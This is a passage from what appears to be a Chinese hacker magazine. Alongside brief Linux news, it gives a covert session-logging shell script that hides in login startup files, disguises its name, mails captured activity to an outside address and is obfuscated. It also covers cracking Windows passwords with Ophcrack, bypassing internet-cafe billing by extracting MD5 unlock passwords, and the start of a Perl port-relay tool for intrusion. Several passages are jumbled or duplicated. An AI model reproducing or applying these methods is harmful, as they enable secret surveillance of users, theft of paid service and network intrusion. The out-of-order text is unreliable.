> > 青蛙点评：谁说开源软件不能赚钱啊？！Linux 在世界范围的逐渐兴起，其意义不仅仅是在经济上创造的价值。更多的，它在开源文化领域树立了一个榜样——公开源码但是依然能赚钱。

# 3、红帽加入微软软件联盟，与 Windows 兼容

据悉，开源软件卖主红帽公司日前表示，它将向微软公司靠拢，参加微软发起创建的 Interop Vendor 联盟，这一技术公司联盟的目标是使它们的软硬件产品更好的与微软 Windows 软件兼容。红帽称，为了确保它的产品在 Windows 环境中扮演重要的角色，在联盟中它将专注于公司的中间件产品与微软兼容，并在先前收购的 JBoss 部门构建这种兼容。

这条消息是红帽在微软与 Novell 描述了它们的产品在 Windows 或 Linux 环境将更好兼容的路线图之后一天发布的。

> > 青蛙点评：Windows 操作系统市场中已经占有全球最多的份额，Linux 向 Windows 靠拢，无非是想借此实现更多的经济增长。面对现在遍地 Windows 的市场，这种做法也无可厚非！一位 Novell 的官员曾说过，和微软合作是为了更好的竞争！

## 4、亚太地区的选择—— Autodesk 的 Linux 解决方案

目前，亚太地区又有 8 家广播公司与后期制作工厂选择了 Autodesk 的运行在 Linux 操作系统上的视觉效果、编辑以及数字色彩等级产品。这些 Autodesk 产品用于制作电视频道品牌、节目包装以及电影与篇幅较长的电视内容。其解决方案的新客户包括中国的北京电视台与河北电视台、韩国广播公司 (Korean Broadcasting System, KBS) 和澳大利亚的 Cutting Edge 等多家电视台及影音创作公司。

Autodesk 公司在软件上有很强的实力，AutoCAD、3DS MAX 等均为该公司的产品。

> > 青蛙点评：啥都不说了，选择运行于 Linux 平台的解决方案，尽管在软件上会有一定的差异，不过在价格上都具有很大的优势，同时，高效、稳定以及更低的维护成本，也成为了选择 Linux 解决方案的原因。

# 巧用 Shell 脚本记录用户操作

从本文中你可以学到：

- 1、编写简单的 Shell 脚本的方法
- 2、通过 Shell 脚本记录用户的操作内容

记录通过对登陆 Shell 用户操作内容的记录，来监视用户操作的过程是否很困难呢？现在我们就用 Shell 脚本编写一个记录用户操作的脚本，然后让它正常工作

## 首先给菜鸟补个课：Shell 脚本 (Shell Script) 是什么？

Shell 脚本和 Windows/DOS 下的批处理类似，也就是用各类命令预先放入到一个文件中，方便一次性执行的一个程序文件。主要是方便管理员进行设置或者管理用的，但是它比 Windows 下的批处理更加强大，甚至用来处理 Linux/Unix 下的某些事情，比用其他编程程序编辑的程序效率更高，也更容易读懂代码，毕竟它使用了 Linux/Unix 下的命令。所以需要成为一名合格的 Linux/Unix 系统管理员，Shell 脚本是一门必修课。

你可以检查你现在正在运行的 Shell 是什么：输入 echo $SHELL 就可以知道你用的是什么 Shell 了，常见 Shell 有 bash、csh、ksh 等等。

希望大家通过对下面脚本的编写，从中体会 Shell 脚本的基本编程。好了马上我们就进入正题。

为了记录用户登陆的所有操作，了解 Linux 的朋友都知道需要使用到 script 命令，让系统用户一登陆 Shell 后就开始记录它所有的操作。但是如何在用户不易察觉得情况下记录用户的操作，并且在用户退出后，把这些操作记录发送到管理员指定的邮件信箱中，方便管理监控呢？那就跟随我用 Shell 脚本编辑一个这样的记录脚本吧。本脚本和设置方法可以在用户登陆后记录他们的操作。

首先是记录脚本的内容，脚本的内容我会在后面的内容中一一提到，脚本内容如下：

```bash
#!/bin/bash   #这是定义脚本使用的是哪个 shell。
#formail () { #这是定义函数，熟悉编程的应该都了解。这属于 c 语言下的那种定义函数的方法，也可以用 function formail {} 来定义
# { #函数的开始。
# ls -al $TIMELOG >>$TIMELOG   #把文件的时间戳显示出来，说明文件是什么时候开始创建并且开始记录的。
# w >> $TIMELOG    # w 命令是获得当前登陆用户的情况追加到 $TIMELOG 定义的文件中去。
# echo "记录正常" >>$TIMELOG #可要可不要可以根据自己的需要来设置。
# mail -s "记录报告文件" firexxx@163.com < $TIMELOG #这个命令是发送$TIMELOG定义的文件的内容到 firexxx@163.com 并且邮件的名称为 "记录报告文件"。
# chattr -a $TIMELOG    #这个命令是去掉 $TIMELOG 定义的文件的只能追加的属性，如果不删除这个属性，文件无法删除。
#rm -rf $TIMELOG       #删除$TIMELOG 定义的这个文件
# }                   #函数的结束
#trap 'formail' 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 26
#TSLOG='date +%Y%m%d%H%M'   #定义$TSLOG 为 date +%Y%m%d%H%M 这个命令所执行的结果 “`” 这个符号就是执行在 2 个这个符号中间命令。
#TIMELOG=~/.log/$TSLOG.LOG     #定义$TIMELOG 的完整路径 “~” 代表当前用户主目录
# mkdir ~/.log > /dev/null 2>&1    #创建 “~/.log” 目录 “>/dev/null 2>&1” 的意思是任何返回的信息都输出到 “/dev/null” 设备中，意思就是不想看到回显不管是否错误，因为有可能用户目录下已经有了这个目录了，如果再创建就会出现错误的回显。
# touch $TIMELOG    #touch命令就是创建 $TIMELOG 定义的文件，如果存在这个文件就会更新这个文件的时间戳。
# chmod 600 $TIMELOG     #创建 $TIMELOG 定义的文件的用户权限为只读写权限。
```

```bash
# chattr +sa $TIMELOG #给文件加上只能追加不能修改的属性。
# script -q $TIMELOG  #script 这个命令可以用来记录用户操作。
#formail  #执行 formail 这个函数
#clear   #清屏的命令（或许你感觉不要，但是有些 ssh 的登陆软件的退出情况有些不一样，所以为了不易察觉所以加上这个命令。）
#
#kill -9 $SHELLPID #杀掉用户登陆的这个 shell (这个 $SHELLPID 哪里来的？我会在文章的下面说到。)
```

在这里对程序进行一下解释：formail 是个用户定义的函数，功能是退出记录后发送记录报告到指定的邮件信箱；trap 命令是用来设置陷阱的，也就是遇到或者说叫捕获一些退出的指令时，它会执行 formail 这个函数；而 script 平时可以用来对用户自己的操作进行记录，方便于自己判断自己的操作是否出现错误；最后的一 kill -9 是杀掉登陆的 Shell PID，从而达到退出 script 记录脚本同时又杀掉进程，感觉像正常退出 shell 一样，否则输入 exit 退出时，只是退出 script 记录而已，用户只会退出到没有 script 记录的 shell 下面，不能达到隐蔽记录的目的，这样就不能监控用户的操作了，而 $SHELLPID 也就是登陆 Shell 的 PID。

不过默认的参数中，没有 SHELLPID，所以必须在 “/etc/profile” 的 “export PATH USER LOGNAME MAIL HOSTNAME HISTSIZE INPUTRC” 代码前面加上 “SHELLPID=$$”，然后在 “export PATH USER LOGNAME MAIL HOSTNAME HISTSIZE INPUTRC” 后面加上 “SHELLPID”。

“$$” 的意思是什么？可能新手不太了解，“$$” 是系统的内置参数，意思就是获得当前 shell 的 PID，并且让它变成环境变量。

如果不明白可以做一下以下的试验：进入系统后按照上面所说的方法在 “/etc/profile” 中添加 “SHELLPID”，然后退出系统。重新登陆一个用户，正常登陆后输入：echo $$ 看看显示的是什么数字？再输入 echo $SHELLPID 看看显示什么数字？是否一样？如果用命令 kill -9 数字，会有什么样的情况？也就是 kill -9 $SHELLPID 就会杀掉当前的 shell 了。从而输入 exit 后就会退出 shell。

# 程序写好了，那么怎么让它顺利地被执行呢？这段 Shell 要放在什么地方呢？

大家可以看到 /etc/profile 文件里面有下面这么一段代码：

```bash
for i in /etc/profile.d/*.sh ; do
    if [ -r "$i" ]; then
        . $i
    fi
done
```

这段代码是说在 /etc/profile.d/ 目录下的有用户可读的后缀为 sh 的文件都会去执行它，我们可以利用这个特性，我们把监控脚本放入一个平常不易察觉的路径下，然后把执行的命令放入这个目录下的其中一个 sh 文件中。加入代码 ./路径/scriptuser.sh，或者 bash /路径/scriptuser.sh。当然脚本名字可以根据自己的需要进行更改。隐蔽性越强越好，路径越不容易察觉越好，可以改成系统常见的进程名字，也可以去掉后缀。

当然使用了 script 这个命令就没法正常从普通用户切换到 root 用户了。会提示错误的，就算口令正确也不能登陆。那怎么办呢？那可以更改一下代码：```bash
if [ -s "$HOME/.bash/test" ]        # 判断用户目录下是否有 test 这个文件并且不是空文件
then
    $HOME/.bash/test                # 如果有就执行这个 test 脚本，大家可以写成 bash $HOME/.bash/test
else
    . /路径/scriptuser.sh           # 如果没有就执行 scriptuser.sh 这个脚本，或者写成 bash /路径/scriptuser.sh
fi
```

把这段代码替换掉刚才那段简单的代码“ . /路径/scriptuser.sh ”，在 Linux 中可以指定哪些用户使用 SU 命令来执行 root 权限的任务，它的意思就是，如果这个用户有能力使用 SU 命令，那么就把下面修改好的脚本放到这个用户的目录下面。$HOME/.bash/test 这个就是脚本所处路径。当然这个目录需要用 root 用户建立，并且只能给予这个目录普通用户执行的权限，脚本读的权限就行了。

$HOME/.bash/test 脚本的内容如下：

```bash
#!/bin/bash
# formail ()
# {
# w >> $TIMELOG
# echo "记录正常" >> $TIME
# mail -s "记录报告文件" fire_xxx@163.com < $TIMELOG
# chattr -a $TIMELOG
# rm -rf $TIMELOG
# }
# trap 'formail' 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 26
# TSLOG='date +%Y%m%d%H%M'
# TIMELOG="/.log/$TSLOG.LOG"
# mkdir /.log >/dev/null 2>&1
# touch $TIMELOG
# chmod 600 $TIMELOG
# chattr +sa $TIMELOG
```

```bash
# script -q $TIMELOG
# formail
# clear
```

内容和上面的脚本一样，只是删除了最后的一行。大家记得要把脚本的 # 去掉哦！否则不能执行的，第一行的 # 去掉一个就行了。

不过由于这些 shell 代码都是可以读的，如果熟悉 shell 脚本的人是可以还原并且读取这些代码，这样就失去了安全性。大家可以使用 gzexe 进行简单的“加密”（类似 Windows 下的一个加壳）工具把 shell 脚本程序压缩成可执行文件，这样不熟悉的人无法还原 shell 代码原本的面目了。由于加密并不在这篇文章的讨论范围内，所以……我也不细说了。大家慢慢琢磨吧！！！！

不知道这个脚本是不是可以满足一般对编程不是很擅长的管理人员的需要呢？当然大家可以根据自己的需要更改代码，让它更加适合自己，甚至可以编辑监控这一脚本的监控脚本同这个脚本一起启动，如果记录脚本正常退出，监控脚本自动关闭；如果非正常退出，那监控脚本会杀掉登陆的 shell 并且发送报警邮件。这个就需要大家发挥自己的智慧了，呵呵！！

本文的测试环境 Red Hat Enterprise Linux 4 U2。
提示：脚本中使用的符号均为英文半角；测试时，将“fire_xxx@163.com”改成用户自己的地址就可以了。

【文中所涉及的文件已经收录在光盘中。软件如下：文中涉及的两个脚本】

> 编辑点评：这是《黑手》窗外中脚本类文章的开山之作，文章比较细致，考虑得也很周到。不过主要的应用是针对管理员监控用户的使用、操作，如果可以加上本地提权的内容，那对于众小菜在 Linux 环境中对他人操作进行记录有莫大的益处。希望大家以此篇文章为例，更好的学习 Linux 的 Shell 脚本编程。

# 没有 Windows，照样破密码

李亦聪

从本文中你可以学到：

## 1、非 Windows 环境中破解 Windows 用户密码

任何一个系统中，密码（我个人更倾向于叫做“口令”）都起着很重要的作用，从登录系统开始，到上 ADSL、上 QQ 等，口令是用于识别用户身份的主要手段。Windows 的口令我们很熟悉，NT/2000/XP 中的 SAM 经常是重要的目标，因为有了口令，一切活动就更像是有授权的了。经常使用的有 LC5，或者 SAMinside，不过这些软件都是在 Windows 环境下使用的。如果某一天我们的电脑口令忘记了，但是又有重要的文件在里面，不能格式化，那我们怎么去破解这些口令呢？！想知道么？继续看吧。

下面请出今天的主角：Ophcrack LiveCD。Ophcrack (http://ophcrack.sourceforge.net/) 专注于 Windows 口令的破解，是跨平台的，在 Windows、Linux 以及 MAC 中都可以安装、使用；运算速度很快，据说有过 13 位密码 5 分钟破解的记录；可以读取本地 SAM 和远程 SAM，甚至可以从一个恢复的 Windows 分区中获取加密的 SAM 文件。除了这些优点，Ophcrack 还提供了强大的密码字典文件（SSTIC 列表，WS20k 列表和 NTHASH 列表），总大小超过 1G 内容，其中 WS20k 能够破解 96% 的最长 14 位的口令。我今天要介绍的，是集成了 Ophcrack 的 LiveCD 的使用方法，跟着我来吧。

首先，准备我们的工具——Ophcrack LiveCD。下载地址是 http://jaist.dl.sourceforge.net/sourceforge/ophcrack/ophcrack-livecd-1.1.4.iso

图 1 Ophcrack 主界面

图 2 读取 SAM 文件

然后，重启计算机，设置 BIOS 为从 CD-ROM 启动，然后把光盘放入光驱。

在启动的时候会看到 Ophcrack 的启动画面，回车进入系统（有没有熟悉的感觉呢？Ophcrack LiveCD 是基于 Slax 构建的）。接着就是

图 3 Ophcrack 中查找 SAM 的位置

Ophcrack 在检测硬件啊，配置系统啊，直到图形界面出现就 OK 了。在控制台中输入 ophcrack 来启动破解程序，如图 1。

Ophcrack 使用起来很简单。在工具栏中单击“Load”按钮，选择“From encrypted SAM”，如图 2，会弹出选择 SAM 文件位置的对话框。

不同于 Windows 环境的文件系统，这里要注意 SAM 的位置。在右侧的目录列表中选择“mnt/hda1/”，这时候就能看到熟悉的 C 盘下的数据了。在选择“windows/system32/config”（图 3），单击“Open”按钮就好了。这时会看到在程序的列表位置出现了“Administrator”和“Guest”两个名字。

这时候一切就都就绪了。单击“Launch”，程序自动开始跑密码了……看，只用了 18 秒，前 7 位的密码就已经被破解了——0302121（图 6）；又经过了大概几分钟的等待，整个密码破解完成——03021219（图 7）。

接着单击“Tables”按钮继续进行设置，这个可不是桌子，这个指的是密码的列表。在弹出的对话框中，依次进入 /mnt/live/、mnt/、hdc/、ophcrack/目录（如图 4）。

呵呵，怎么样？！总共 300 多秒的时间，8 位的密码就搞定了。这还是在虚拟机里测试的呢，如果真是在电脑上，肯定速度更快。另外提醒大家，从破解密码的结果能看出来，Ophcrack 是 7 位 7 位的破解密码（LC5 也能看到同样的结果），所以密码要么最好比 7 的倍数大一些，比如 8 位或者 15、16 位。

好了，到这里 Ophcrack 就全部介绍完毕了。有了这个工具的话，丢了密码也不怕了，而且携带、使用都很方便，真是居家旅行、杀人灭口必备良药。

注：如果机子上有 Windows 2K/XP，系统会自动运行 ophcrack，并对本地密码的文件 “C:\windows\system32\config\SAM” 进行猜解。

最后进入“10000”目录就可以了，能看到这个文件夹下面有很多的 table 文件，这些文件都是密码字典。选到这个目录后，单击“Open”就可以了。然后就能看到字典的选择列表了，单击其中一个字典（我选的是第一个），然后就“OK”，如图 5。

> 编辑点评：作者的文章给我们破解 Windows 密码提供了一个新的思路。但 LiveCD 本身并不适合长时间运行，速度有限且过于消耗光驱，所以使用 LiveCD 来进行 SAM 破解，实在……只是个思路了。不过本身文章的前提就是在非 Windows 环境下进行破解，条件比较特殊，所以如果真的遇到这样的情况，尝试一下 Ophcrack 也是可以的。

> 星陨石碎：刚从网上下来，看到一群里说“2007 年在全国范围内不再审批网吧”云云，不知道真的假的，本以为后者的可能性比较大一些，没想到貌似要成真的了。要说现在网吧事业是相当的火，就小编居住的城镇来说，小地方一块居然也有 30 几家网吧，一条街上走几步就是一家网吧，而且还有两万多人来这里搞，晕！而越是这样百花乱放的状况，单个网吧的生意就越不如从前，要想吸引客户，除了硬件配置外（其实就是花银子），现在人越来越注重品味和档次，豪华的外观设计和周到的服务同样重要。不用担心，总有不怕掏钱的客户来充斥这些场所的。感觉现在像从前那样有个安静的学习环境的网吧少了，一般不限制吸烟的网吧给人的感觉都很乱，根本无法静下心来看教程。抑或戴上耳机把声音开到最大，可往往耳机又是坏的……

> 时代在变，网络在变，网吧同样。本期网吧来了我们的老朋友兜兜，他从很现实的角度给大家讲解了破解真相，这让大家读起来或许有似曾相识的感觉吧！这里泡吧栏目再次向全社会征稿，凡是对网吧破解有新的发现或者独到的研究，抑或是对网吧安全管理有经验的朋友均可以加入我们。我们喜欢短小精悍的技巧性文章，而近距离的网吧 HACKING 实战也是泡吧的主打项目，欢迎广大关注网吧安全与发展的朋友踊跃投稿，我们的投稿信箱是 nohack@21cn.com。

# 深入网吧背后——谈破解真相

兜 圈糖

- 从本文中你可以学到：
- 1、了解网吧技术取向和安全现状
- 2、一个破解万象 2004 的方法
- 3、同一破解方法在万象不同版本的不同表现

算是个闲职吧。而且一个网管是否熟悉并掌握网吧的所有情况这也要一定时间量的工作积累。事实很多老板宁愿花钱请技术员来解决（除了对网吧提供的定期检查服务以外），并且技术员也只会在老板的要求下偶尔告诉网管一些基本操作。即使技术员给网吧安装的是代理理的公司的品牌系统，也需要到对方公司上课培训的，这样递推下来区区一个网管又能了解多少呢？

## 前言

当决定写这篇文章时，我仅出于以下两点考虑：一是想举些典型的事例原汁原味地奉献给读者，让读者能从反面汲取一些经验和教训；二是谈谈我所了解目前的网吧安全现状。

## 一、浅谈网吧技术取向

首先：现在做网吧系统的“游商”很多（多在当地电脑城），而大多的网吧都是由这类人做的系统，但其中也有大牌产品的代理商。一般在工作站桌面或查看“我的电脑”属性项等较为明显的地方都能看到付费借助网吧给自己私人公司打的广告。

其次：网吧的系统类型也是参差不齐，暂不去分辨什么是无盘系统（98 无盘）、虚拟磁盘系统（xp 无盘）和有盘系统，至少现在自制母盘的人多了，难免不乏有些经人仿造的、修改的、破解的。例如“翔宇网络”和“新世纪无盘”两者在工作端看很多不一样，可服务器端看却都是锐起磁盘磁盘系统。

再次：现在大多网吧对于网管的技术水平要求并不高，责任仅仅在日常维护上，比如网线松了、换耳机、调视频什么的。也算是个闲职吧。而且一个网管是否熟悉并掌握网吧的所有情况这也要一定时间量的工作积累。事实很多老板宁愿花钱请技术员来解决（除了对网吧提供的定期检查服务以外），并且技术员也只会在老板的要求下偶尔告诉网管一些基本操作。即使技术员给网吧安装的是代理理的公司的品牌系统，也需要到对方公司上课培训的，这样递推下来区区一个网管又能了解多少呢？

## 二、浅谈网吧安全现状

别看网上四处都能寻见到某人因发现某网吧主机的防御设置很低、开放了默认共享、且没有登录密码和用户名的密码。于是，便利利用网吧主机的系统漏洞，进行入侵、挂马、恶作剧、冲钱等等。在大多数人的眼中，“作者”可能是技术非常高明的黑客，但从技术角度来讲，“作者”充其量或许只是一个对黑客知识略知一二的人。试想一下，网吧主机对网吧的正常运营有着多重要的作用，而就是在这样一台非常重要的服务器上，居然没有设置登录密码，还开放了默认共享。没有登录密码的网吧主机，岂不是对所有人敞开了大门，稍微玩过“黑”的人都可以轻松入侵没有任何防范措施的网吧主机。

面对许多入侵实例的叙述，仿佛网吧的安全方面都是那么不堪一击。倘若实际中的网吧都是那样，或者说大都是那样的话，想必以后寻求如何进入主机冲钱的人会越来越少，既能轻而易举的进入，干什么还不愿是你愿不愿的事。毕竟还是有很多想踏踏实实

实把生意做好的人，当然必要的安全防范一定是会考虑到。**1. 如在操作系统的安全设置方面：** 设置复杂的用户登录密码，更改、伪装或禁止了一些内置账户；关闭系统中有关安全隐患的服务，如 server 文件共享服务、远程修改注册表、计划任务等具有高安全风险的服务；更新了最新的系统安全补丁，因为一些黑客通常是利用操作系统的漏洞进行攻击的。

**2. 除操作系统的安全设置之外：** 目前，大多数网吧已经淘汰了代理服务器改用路由器，这也迫使部分的入侵方法得以变更。而路由器如果设置不当，也会被黑客攻击。不过像把路由器超级用户的默认口令修改掉、或重新设置一个较为复杂的安全口令，禁止用户 Ping 路由器的 WAN 口来防止其他人 DDoS 攻击、开启内置防火墙（默认状态下，路由器的防火墙功能是关闭的）等等的网络规划，设备安全配置一般在网吧建设初期技术员都会给负责设置好的。

**3. 还有所安装的程序方面：** 如图 1 所示，这是万象 2004 服务端安装的一个过程。

有盘网吧用 360 安全卫士更新系统补丁、利用网络拷贝工具将网吧内正常工作站的硬盘数据复制到出故障的工作站中，而不再是用 ghost 重做。

## 表 2 三家无盘网吧的情况对比

| 项目 | 无盘网吧一 | 无盘网吧二 | 无盘网吧三 |
| --- | --- | --- | --- |
| 服务器管理 | 1. 三台文件服务器（锐起硬盘版 V2.0 稳定版），一台代理服务器（网乐视频分享平台 V2.1.2），一台收费服务器，一台“由于精神冲突”安全审计系统 | 1. 三台文件服务器（锐起网吧系统标准版 2.01.1116 正式版），一台本地更新服务器，一台网吧广告管理服务器 | 1. 一台锐起无盘（E-play 网吧服务平台 v4.5 稳定版），一台单机收费机。 |
| 工作站配置 | 一共有 104 台工作站，现三台文件服务器划分了三个区域。 | 一共有 222 台工作站，现三台文件服务器划分了五个区域 | 一共有 75 台工作站，设有万象管理保护卡 |
| 收费软件服务端版本 | 万象 2004-16.4.8.910 版 | 世纪巨龙收费系统一版本不详 | 万象-16.3.4.5.900 版 |
| 收费软件客户端版本 | DDL 模式-16.3.12.589 版或破解版-16.3.12.610 版 | 锐起版-16.3.12.602 版（网吧内无普通模式，也无严密模式，只有普通模式） | 16.3.12.589 版 |
| 网吧收费现状 | 1. 有会员卡和非会员卡，且网吧会员卡可以自行充值。<br>2. 入座工作站屏幕解锁，无论是否连接网络，均有语音提示，只有字幕提示。 | 1. 无会员卡，用户交押金方可上机，且由收银员负责充值。<br>2. 无语音提示，只有字幕提示。 | 1. 只有会员卡，且由收银员充值台卡。<br>2. 无语音提示，且由于字幕提示不详。 |
| 日常管理 | 1. 周一至周五早晨轮流关闭文件服务器，其机的一半不开。<br>2. 执勤时查一次机，弄员工工作牌。 | 1. 晚上清点人数的时候，会关掉电脑服务器的收费机，让用户非正常下机，并启用发生机上的收费系统。<br>2. 都是一家人，没讲外人。 | 1. 网吧规模不大，工作人员只有个收银员兼技术员的女生。<br>2. 电脑坏了，隔几天才会有人来修。 |

当然做一个安全的系统也不仅仅在于此，但大部分网吧都是拿网管当做普通技术员来使用的。

中小规模的网吧是很难找到一个技术较强且相对稳定的技术人员的，现在大部分网吧的安全防范还是取决于外部技术支持，而并非网吧网管，这也算是大部分网吧的一个通病吧！

## 三、环境差异致使方法的变通

老规矩先大致介绍下环境，仅供借鉴。如表 2 所示。

**补充说明：**

- 1、我曾说过越大规模的网吧其服务器的部署就越显得独立，只为保证不会因为局部服务器的故障而影响整体。例如：文件服务器被关，即会影响它所隶属区域的工作站开机将无法进入系统。而电影服务器被关，则会导致使用户将无法观看电影。
- 2、其实很多无盘网吧的文件服务器上也装有收费端（注：并不是分主次服务端，而都是主收费端），只要用户在他所隶属区域的工作站，他就能负责开机、结帐。但这样就不受另一个收费端计费控制了，所以通常只用一个主服务端控制所有工作站。至于“网吧二”不办会员卡的缘故，可能是因为数据库无法统一吧。至于为什么服务端和客户端不一致的原因，我也不知道。
- 3、现在大多网吧的电影服务器都安装了“视频分享平台”这类软件来直接提供电影给用户欣赏（例：网乐视频分享平台），电影来源大致流程如图 3 所示。

先由网吧以外的中心服务器把电影传输到网吧的电影服务器内，再由该软件生成网页的形式供工作站端浏览，外貌就像在线电影网站一样。当然电影文件是真实存在于网吧服务器上的，所以硬盘的容量会很大。

现在对环境已经有大致的了解，下面就结合方法来对比说明，揭开方法背后的那部分潜在威胁。

## 方法一：解锁免费上网

先在注册表中按这个路径 **HKEY_CURRENT_USER\Software\Sicent\wx2004Clt**，按有没有 **!!!UnlockCipher、!!!IESetCipher** 和 **!!!RunSetCipher** 三项（即解锁密码、IE 浏览器加密密码、运行设置密码），将其后的“数值数据”复制下来，找个 MD5 解密的破解即可。如果破解不出其后的“数值数据”删除，然后保存密码就为空了！可是在以上四个版本的万象中有的是找不到的，即便你用工具也不行。那怎么办呢？其实在以上四个版本的万象客户端安装路径下 **C:\WINDOWS\system32** 里还有一个文件是 **mcfer.dat**，我们用记事本打开就可以看见 MD5 密码啦！

如果你得到密码后，是选择以解锁的方式来免费上网吗？像“网吧一”的那类情况，当工作站被解锁时，收银员会听到一声“有客户端已解锁”的语音提示，字幕提示则会显示被解锁的工作站编号。像后两者的情况，虽没有语音提示，但字幕提示是必不可少的。所以试图以解锁免费上网的方式并不可取！

## 方法二：断开连接免费上网

这里我以“万象 2004 测试工具”举例说明一下。这里是我根据上述环境总结的测试结果如表 4 所示。

## 表 4 工具测试结果

| 类别 | 16.3.12.589 | 15.3.12.598 | 16.3.12.602 | 16.3.12.610 |
| --- | --- | --- | --- | --- |
| 网吧一 | 行，换有效 | --- | --- | 不行，执行无效，有警报提示 |
| 网吧二 | --- | 不行，不可以换 | 不稳定，不可以换 | --- |
| 网吧三 | 行，不可以换 | --- | --- | --- |

**补充说明：**

- 1、表 4 中的“行”指预交押金消费完后，工作站不会被锁；
- 2、“不行”则指相反的结果，其中 610 版在余额即将不足时，收费端会出现“XX 客户端疑似被非法破解，请检查此客户端”的字幕提示，直到余额用完工作站被锁为止；
- 3、“不稳定”指预交押金消费完后，有时不会被锁（这还是在至少上 3 个小时以后的结果，小于则一定锁）；
- 4、“换有效”指用该工具断开 1 号工作站连接后换至其他工作站，1 号工作站不会被锁，其中只在 589 版间互换最有效，有没有余额都能换。还可换一次断一次递推，前面的工作站均不会被锁。虽然已换的工作站状态和未解锁的状态相同，但是收费端都会显有换机操作字幕。
- 5、“换无效”指用该工具虽有提示“已和主机断开连接”，但换机仍会使此工作站被锁。其中 610 版换至 589 版工作站时 610 版的仍会被锁，但反过来换则不会。

结果表明若是 589 版时该工具才能发挥最大的作用（以上换## 四、总结

常言道：当局者迷，旁观者清。此刻作为外人的你是否清醒着呢？你是否还困在这个“迷”上了呢？倘若我不曾是个当局者，恐怕也还“迷”着呢！面对别人的成功，探究根源，网吧并不是没有技术对黑客的入侵进行防范，而是部分网吧的网络安全缺乏足够的重视，最终网吧成为一些黑客爱好者练习黑客技术的演练场。其实对于网吧的入侵和破解，玩的就是社会工程学，找人为被忽略的地方，没有一个绝对定性的方法，因为你处在“敌人”内部，不知道会不会因为自己的一个简单操作而暴露自己的身份。可能对于单纯的方法实例来讲，我们更加需要的还有别人的心得和经验。这么些年来，因为求学和工作的原因，南南北北也待过两省五市。要知道单处在工作站端去做实验是很花精力和“银子”的，当然必然的失败就不用说了。今年过年是在北方老家过的，期间我测试了 5 家规模在 100 台左右的有盘网吧，安全问题的确“够呛”。居然工作站上还都装了很多盗号木马，据知情人士透露说：“这边请人给做的网吧系统都这样。”这个我不想评论什么。虽然享受了些成功的喜悦，但至少在我了解的范围内觉得，有盘的确没有无盘的好。有兴趣的朋友可以尝试当一段时间的网管，说不定你也有和我一样的收获哦！

> **编辑点评:** 兜兜消失了一段时间后终于又出现在了网吧战线上，让我不再感觉孤独了，呵呵！~这篇文章仍然继承了兜兜一贯的风格，从实际出发，他给大家构造了一个相当“物理”的网吧环境并在此基础上进行一些问题的探讨和研究，是否和平常我们看教程的感觉不一样呢？文章中介绍的情况都是很现实的，比如表 2 中的“都是一家人，没有外人”，有多少网吧都是这样呢？对“某些”教程这里不予评置，小编认为这种一切以实际为基础的做法是非常值得推崇的。别人说的如何如何或者他也是听别人信口开河也说不准呢，想要准确答案吗，自己实践！我生活在北方，对作者说的北方网吧的情况不置可否，不过小编承认北方的网吧没有南方的专业，无盘网吧也是很少见的，安全也不是很重视。希望我们的泡泡吧能给北方网吧（当然还有南方，哈哈）技术的进步带来动力，我先去看看哪个网吧系统还装木马... [黑客手册]

张宇首语：人生如程序，程序如人生。人生就像是已经做好了基本设计项目计划文档，大多都是相似的，不过我们可以把握机会，将程序、人生设计得更精彩、更漂亮。

## 用 perl 编写端口重定向工具

- 从本文您可以学到：
- 了解端口重定向的原理
- 用 perl 语言来实现简单的端口重定向

上课了，上课了。今天，我们要讲的是一个端口重定向工具的编写。用到的语言就是 perl 了。关于端口重定向工具，我就不用多作解释了，相信大家应该都用过，它在入侵过程中对内网操作起着一个极为重要的作用。简单来说就是实现数据的流转，具体流程如下：

- 在本地开启服务端端口，等待远程客户端连接
- 接受远程客户端连接，读取远程数据
- 与目标服务器建立连接
- 将读取的数据发送到目标服务器，再将其返回值返回远程客户端
- 在远程连接未关闭条件下，循环第 4 步

当然，我们还希望该程序能够允许多个客户端同时连接，所以需要使用 Thread 模块以建立多个线程循环处理数据。由于该程序对远程套接字的读写操作频繁，为了防止对未做好读写准备的套接字进行操作而产生错误阻塞，还要用到 IO::Select 来检查远程套接字的读写状况。关于 Thread 具体用法可参考 perl 自带的 ActivePerl User Guide 文件，这里我们提供一个简单的模型：

```perl
use Thread; # 导入 Thread 模块
$thread=Thread->new(\&ftp, $i); # 创建一个线程，这里的 ftp 为调用子程序的名称，$i 为向线程传递的参数
$result=$thread->join(); # 结束线程
```

需要说明的是这里的 join，这个操作在线程已停止的情况下，会返回该线程的返回值。如果该线程没有停止，则会将该线程不确定挂起，直到线程终止时，join 返回。注意，线程本身不能调用自己的 join() 方法返回。

接下来，简单讲一下 IO::Select 的用法（更为详细的资料可以参考 ActivePerl User Guide 文件）：

```perl
$select=IO::Select->new([@handles]);
```

用 IO::Select 的 new() 类方法创建一个新的 IO::Select 对象。可以使用一列句柄作为参数调用 new()，在这种情况下，这些句柄都被加入 IO::Select 对象监视的句柄集合中。当然，也可以使用空的参数列表调用 new()，则 IO::Select 对象监视的句柄集初始为空。

```perl
$select->add(@handles);
```

这个语句将一列句柄添加到 IO::Select 对象所监视的句柄集中并返回成功添加的句柄数量。如果多次添加相同的文件句柄，则重复的项被忽略。

```perl
$select->remove(@handles);
```

这个语句将一列文件句柄从 IO::Select 对象所监视的句柄集中删除。

```perl
@readable = $select->can_read([$timeout]);
@writable = $select->can_write([$timeout]);
@exceptional=$select->has_exception([$timeout]);
```

can_read()、can_write() 和 has_exception() 每个方法都代表你调用了 select()，返回值为准备好可用来读取/写入或因异常情况而挂起的文件句柄集。这个操作会一直持续到 IO::Select 对象中一个句柄准备好，或直到 $timeout 给出的可选的超时值到期。在超时情况下，将返回一个空列表。超时值以秒为单位表示，可以为小数。

了解完 IO::Select 和 Thread，我们杀入正题，先记住毛主席

的一句名言“在战争中学习战争”。现在来看完整的代码:

```perl
perl
!usr/bin/perl
#EASY_portRelay
#by wolfsea[w Group]

use strict;
use warnings;

use Thread;
use IO::Socket;
use IO::Select;
```

# 注：这里分别是导入 Thread、IO::Socket 和 IO::Select 模块，打开 strict 严格语法检查和 warnings 警告提示，最上面的则是版权说明

```perl
use constant PRETHREAD => 5;
```

# 注：将 PRETHREAD 设置为常数 5，这里是为下文设置预定线程数，即同时允许连接的数量

```perl
my $local_port = 80;
my $remote_host = "209.191.93.52"; # yahoo.com 的 IP
my $remote_port = 80;
```

